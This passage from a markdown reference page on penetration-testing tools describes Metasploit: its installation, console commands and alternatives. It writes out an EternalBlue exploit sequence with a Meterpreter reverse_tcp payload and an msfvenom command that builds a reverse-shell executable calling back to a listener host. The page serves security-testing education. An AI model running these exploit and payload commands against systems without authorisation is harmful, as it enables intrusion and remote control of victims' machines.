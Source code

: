 ### Metasploit Framework

**Description**: Comprehensive penetration testing framework with exploit development, payload generation, and post-exploitation capabilities.

**Installation**:
```bash
# Using apt
sudo apt update
sudo apt install metasploit-framework

# From source
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
```

**Core Commands**:
```bash
# Start console
msfconsole

# Search for exploits
search type:exploit platform:windows microsoft

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set options
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.200

# Run exploit
exploit

# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f exe -o payload.exe
```

**Use Cases**:
- Vulnerability exploitation
- Payload generation
- Post-exploitation
- Security testing
- Penetration testing

**Alternatives**:
- Cobalt Strike (commercial)
- Empire
- Sliver

### Mimikatz
